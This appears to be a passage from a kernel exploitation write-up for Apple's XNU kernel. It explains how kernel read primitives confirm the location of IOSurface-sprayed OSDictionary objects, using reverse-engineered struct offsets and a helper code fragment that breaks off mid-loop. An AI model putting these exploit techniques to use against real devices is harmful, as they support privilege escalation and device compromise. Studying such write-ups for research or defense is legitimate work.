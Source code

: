 Now we can get addresse of objects in dictionary.

Those objects can be of types such as OSArray, OSDictionary, and so on,

```cpp
dict = kernel_fetch_dict(userspaceValueDicts);
...
    for (int i = 0; i < dict->count; i++) {
        if(dict->items[i].value) {
```

Since we sprayed dictionaries by declaring `kOSSerializeDictionary` with `capacity` (`args->xml[i++] = kOSSerializeDictionary | capacity;`), we should look for corresponding structure.

In `OSDictionary` structure, `capacity` field is located at offset +0x18.

Because allocated region size is 82MB, we can check whether value read from capacity field of OSDictionary structure matches that size.

```cpp
00000000 struct __cppobj OSDictionary : OSCollection // sizeof=0x28
00000000 {
00000014     unsigned int count;
00000018     unsigned int capacity;
0000001C     unsigned int capacityIncrement;
00000020     OSDictionary::dictEntry *dictionary;
00000028 };
```

And in OSDictionary::dictEntry structure, `key` field inherits from OSString. By walking through fields and reading `string` field of OSString structure, if data matches prewritten value 0xaabbcc, we can be even more confident that this is the region we allocated.

```cpp
00000000 struct OSDictionary::dictEntry // sizeof=0x10
00000000 {
00000000     const OSSymbol *key;
00000008     const OSMetaClassBase *value;
00000010 };

00000000 struct __cppobj OSSymbol : OSString // sizeof=0x18
00000000 {
00000018 };

00000000 struct __cppobj OSString : OSObject // sizeof=0x18
00000000 {                                       // XREF: OSSymbol/r
00000000                                         // sub_FFFFFFF005C609D4/r
0000000C.0   unsigned __int32 flags : 14;
0000000C.14  unsigned __int32 length : 18;
00000010     char *string;
00000018 };
```

Therefore, the code to check at where kernel address 82 MB of data allocated via IOSurface resides is as follows.

```cpp
#if ENABLE_HELPER
    //helper; find our sprayed IOSurface data
    uint64_t userspaceValueDicts = userdict_from_IOSurface();
    INFO("IOSurface's userspaceValueDicts: 0x%llx\n", userspaceValueDicts);
    struct kOSDict *dict = kernel_fetch_dict(userspaceValueDicts);
    uint64_t osdict_entry = 0;
    
    for (int i = 0; i < dict->count; i++) {
        if(dict->items[i].value) {
            uint32_t osdict_count = kread32(dict->items[i].value + off_osdictionary_count);
            uint32_t osdict_capacity = kread32(dict->items[i].value + off_osdictionary_capacity);
            osdict_entry = kread64(dict->items[i].value + off_osdictionary_dictionary);
```